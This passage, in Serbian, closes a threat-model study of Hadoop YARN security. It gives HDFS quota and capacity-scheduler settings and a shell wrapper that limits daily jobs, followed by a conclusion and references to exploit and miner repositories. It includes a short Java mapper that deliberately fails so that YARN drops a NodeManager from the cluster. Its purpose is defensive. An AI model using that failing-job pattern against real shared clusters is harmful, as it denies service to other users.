Moguća je i varijacija napada sa malom količinom fajlova velike veličine. Stoga je potrebno ograničiti količinu memorije dozvoljene korisniku na korišćenje.
``` sh
hdfs dfsadmin -setSpaceQuota 50g /users/user
```

## Odbacivanje _NodeManager_ čvora

Sledeći posao simulira neuspešno izvršavanje i izlaz sa _error_ kodom. Ovakav posao uzrokuje pokušaje ponovnog izvršavanja, radi oporavka. Mnoštvo ovakvih poslova će izazvati zagušenje klastera po pitanju resursa. Ukoliko se u kraćem vremenskom periodu desi otkazivanje većine poslova na nekom čvoru, to dovodi do odbacivanja čvora od strane _YARN_ komponente. Reč je o vrlo trivijalnom napadu koji je vrlo efektan.
``` java
public class Mapper {
  public static void main(String[] args) throws Exception {
    Thread.sleep(random.nextInt(1000));
    System.exit(1); 
  }
}
```
Broj ponovnih pokušaja izvršavanja aplikacije treba postaviti na nisku vrednost, što je ranije i učinjeno. Dodatno, ograničiti korisniku broj aktivnih aplikacija u određenom trenutku i postaviti ravnopravan odnos članova reda. Dobra praksa je i definisanje limita nad korisnikom.

<a id="M4122i"></a>
### M4122i - Smeštanje korisnika u red
Potrebno je definisati bezbednosnu kontrolu za red kom pripada maliciozni korisnik sa sledećim parametrima: 
- `capacity` - ograničiti kapacitet reda tj. maksimalnu vrednost zauzeća resursa klastera u procentima.
- `maximum-applications` - broj maksimalnih poslova koji se izvršavaju simultano.
- `user-limit-factor` - faktor kojim se ograničava da korisnik može maksimalno iskoristiti ukupan kapacitet reda (npr. 1 x 10% resursa klastera).
- `yarn.scheduler.capacity.root.queue.acl_submit_applications` - dodavanje korisnika u access control listu na nivou reda.
``` xml
<queue name="queue_name">
  <capacity>10</capacity>
  <maximum-applications>5</maximum-applications>
  <user-limit-factor>1</user-limit-factor>
</queue>

<property>
  <name>yarn.scheduler.capacity.root.queue.acl_submit_applications</name>
  <value>alice</value>
</property>
```
Da bi se klaster apsolutno obezbedio potrebno je postaviti maksimalan broj izvršenih poslova za konkretnog korisnika na dnevnom nivou. Teže je sprovesti ovakvu bezbednosnu kontrolu jer _Hadoop_ modul ne podržava potrebne mehanizme.

<a id="M4122j"></a>
### M4122j - Ograničavanje dnevnog broja poslova korisnika
Sledeća `.sh` skripta predstavlja _wrapper_ koji će se okidati pri podnošenju zahteva za izvršavanjem posla korisnika. Ukoliko je korisnik prešao određeni dnevni limit, biće odbijen. 
``` sh
USER=$(whoami)  

JOB_COUNT=$(curl -s "http://job-history:8188/ws/v1/cluster/apps?user=$USER&startedTimeBegin=$(date -d '00:00' +%s)000" | jq '.apps.app | length')

MAX_DAILY_JOBS=20

if [[ $JOB_COUNT -ge $MAX_DAILY_JOBS ]]; then
  echo "Job submission rejected: user $USER exceeded daily job submission limit ($MAX_DAILY_JOBS)"
  exit 1
fi

yarn jar "$@"
```

# Zaključak
Uvođenjem predloženih bezbednosnih kontrola će se velika većina pretnji, kako za _YARN_ komponentu tako i za čitav _Hadoop_ klaster, otkloniti. Mnoge od ovih bezbednosnih kontrola su trivijalne, "jeftino" se mogu uvesti i pružaju dobru osnovu za bilo koji _Hadoop_ klaster.


# Reference

<a id="[1]"></a>
[1] [Korišćena terminologija u ovom istraživačkom radu](https://github.com/Luburic/zoss-model-pretnji/blob/main/modeli/terminologija.md) _(Autor: Nikola Luburić, Pristupano: _13. decembra, 2024_)_

<a id="[2]"></a>
[2] [Which is the best operating system to run Hadoop?](https://www.researchgate.net/post/Which_is_the_best_operating_system_to_run_Hadoop) _(Autor: Dhananjaya Gm, Pristupano: _25. juna, 2025_)_

<a id="[3]"></a>
[3] [Hadoop Security: Protecting your big data platform - Provisioning of Hadoop Users](https://www.oreilly.com/library/view/hadoop-security/9781491900970/) _(Autor: Ben Spivey, Joey Echeverria, Izdato: _01. jula, 2015_)_

<a id="[4]"></a>
[4] [Hadoop Security: Protecting your big data platform - Knjiga: Why Kerberos?](https://www.oreilly.com/library/view/hadoop-security/9781491900970/) _(Autor: Ben Spivey, Joey Echeverria, Izdato: _01. jula, 2015_)_

<a id="[5]"></a>
[5] [Hadoop Security: Protecting your big data platform - Hadoop Security: A Brief History](https://www.oreilly.com/library/view/hadoop-security/9781491900970/) _(Autor: Ben Spivey, Joey Echeverria, Izdato: _01. jula, 2015_)_

<a id="[6]"></a>
[6] [Hadoop YARN: An Assessment of the Attack Surface and Its Exploits](https://www.radware.com/blog/security/hadoop-yarn-an-assessment-of-the-attack-surface-and-its-exploits/) _(Autor: Pascal Geenens, Pristupano: _1. jula, 2025_)_

<a id="[7]"></a>
[7] [What are the challenges of using Kerberos for Big Data applications?](https://www.linkedin.com/advice/1/what-benefits-challenges-using-kerberos-securing-big-data) _(Autor: Ujjwal Sontakke Jain, Pristupano: _25. jula, 2025_)_

<a id="[8]"></a>
[8] [Taming the Three-headed Beast: Understanding Kerberos for Trouble-shooting Hadoop Security](https://medium.com/@blackvvine/taming-the-three-headed-beast-understanding-kerberos-for-trouble-shooting-hadoop-security-12f6c152fe97) _(Autor: Iman Akbari, Pristupano: _25. jula, 2025_)_

<a id="[9]"></a>
[9] [Apache Applications Targeted by Stealthy Attacker](https://www.aquasec.com/blog/threat-alert-apache-applications-targeted-by-stealthy-attacker/) _(Autor: Nitzan Yaakov, Asaf Eitani, Pristupano: _25. jula, 2025_)_

<a id="[10]"></a>
[10] [Threat Actors Exploit Misconfigured Apache Hadoop YARN](https://www.trendmicro.com/en_fi/research/21/g/threat-actors-exploit-misconfigured-apache-hadoop-yarn.html) _(Autor: Alfredo Oliveira, David Fiser, Pristupano: _25. jula, 2025_)_

<a id="[11]"></a>
[11] [Pivot](https://csrc.nist.gov/glossary/term/pivot) _(Autor: National Institute of Standards and Technology, Pristupano: _25. jula, 2025_)_

<a id="[12]"></a>
[12] [Hadoop YARN ResourceManager Unauthorized Access](https://github.com/vulhub/vulhub/tree/master/hadoop/unauthorized-yarn) _(Autor: Owen Gong, Pristupano: _3. avgusta, 2025_)_

<a id="[13]"></a>
[13] [SilentXMRMiner v1.5.1 - Based on Lime Miner v0.3](https://github.com/UnamSanctam/SilentXMRMiner?tab=readme-ov-file) _(Autor: Unam Sanctam i saradnici, Pristupano: _3. avgusta, 2025_)_

<a id="[14]"></a>
[14] [XMRig](https://github.com/xmrig/xmrig) _(Autor: XMRig, Pristupano: _3. avgusta, 2025_)_

<a id="[15]"></a>
[15] [Lucifer DDoS botnet Malware is Targeting Apache Big-Data Stack](https://www.aquasec.com/blog/lucifer-ddos-botnet-malware-is-targeting-apache-big-data-stack/) _(Autor: Nitzan Yaakov, Pristupano: _3. avgusta, 2025_)_

<a id="[16]"></a>
[16] [Hadoop RPC Unauthorized](https://github.com/WHIJK/hadoop-rpc-unauthorized/blob/main/src/main/java/client/exp.java) _(Autor: WHIJK, Pristupano: _3. avgusta, 2025_)_

<a id="[17]"></a>
[17] [Hadoop Security: Protecting your big data platform -  Operating System Security](https://www.oreilly.com/library/view/hadoop-security/9781491900970/) _(Autor: Ben Spivey, Joey Echeverria, Izdato: _01. jula, 2015_)_

<a id="[18]"></a>
[18] [Hadoop Security: Protecting your big data platform - Host Firewalls](https://www.oreilly.com/library/view/hadoop-security/9781491900970/) _(Autor: Ben Spivey, Joey Echeverria, Izdato: _01. jula, 2015_)_

<a id="[19]"></a>
[19] [Hadoop Security: Protecting your big data platform - Common Hadoop service ports](https://www.oreilly.com/library/view/hadoop-security/9781491900970/) _(Autor: Ben Spivey, Joey Echeverria, Izdato: _01. jula, 2015_)_

<a id="[20]"></a>
[20] [Hackers Exploit Misconfigured YARN, Docker, Confluence, Redis Servers for Crypto Mining](https://thehackernews.com/2024/03/hackers-exploit-misconfigured-yarn.html) _(Autor: Ravie Lakshmanan, Pristupano: _7. avgusta, 2025_)_

<a id="[21]"></a>
[21] [What does CAP_NET_RAW do?](https://unix.stackexchange.com/questions/447886/what-does-cap-net-raw-do) _(Autor: Vlastimil Burián, Pristupano: _10. avgusta, 2025_)_

<a id="[22]"></a>
[22] [LinuxContainerExecutor Security Best Practices](https://community.cloudera.com/t5/Community-Articles/LinuxContainerExecutor-Security-Best-Practices/ta-p/244576) _(Autor: amiller, Pristupano: _10. avgusta, 2025_)_

<a id="[23]"></a>
[23] [Kerberos Explained (Animated)](https://www.youtube.com/watch?v=3T_GOYYTJXA) _(Autor: Terminate and Stay Resident, Pristupano: _14. avgusta, 2025_)_

<a id="[24]"></a>
[24] [Kerberos Setup for Apache Hadoop Multi-Node Cluster](https://ravi-chamarthy.medium.com/kerberos-setup-for-apache-hadoop-multi-node-cluster-6bd8a2fbe680) _(Autor: Ravi Chamarthy, Pristupano: _16. avgusta, 2025_)_

<a id="[25]"></a>
[25] [Hadoop — HDFS and YARN Kerberos based Configuration](https://ravi-chamarthy.medium.com/hadoop-hdfs-and-yarn-kerberos-based-configuration-d23d286fdbcc) _(Autor: Ravi Chamarthy, Pristupano: _16. avgusta, 2025_)_

<a id="[26]"></a>
[26] [How is a password encrypted into a keytab file?](https://stackoverflow.com/questions/33784418/how-is-a-password-encrypted-into-a-keytab-file?rq=3) _(Autor: frasertweedale, Pristupano: _18. avgusta, 2025_)_

<a id="[27]"></a>
[27] [Hadoop Security: Protecting your big data platform - Mapping Kerberos Principals to Usernames](https://www.oreilly.com/library/view/hadoop-security/9781491900970/) _(Autor: Ben Spivey, Joey Echeverria, Izdato: _01. jula, 2015_)_

<a id="[28]"></a>
[28] [Hadoop Security: Protecting your big data platform - Authentication, Configuration](https://www.oreilly.com/library/view/hadoop-security/9781491900970/) _(Autor: Ben Spivey, Joey Echeverria, Izdato: _01. jula, 2015_)_

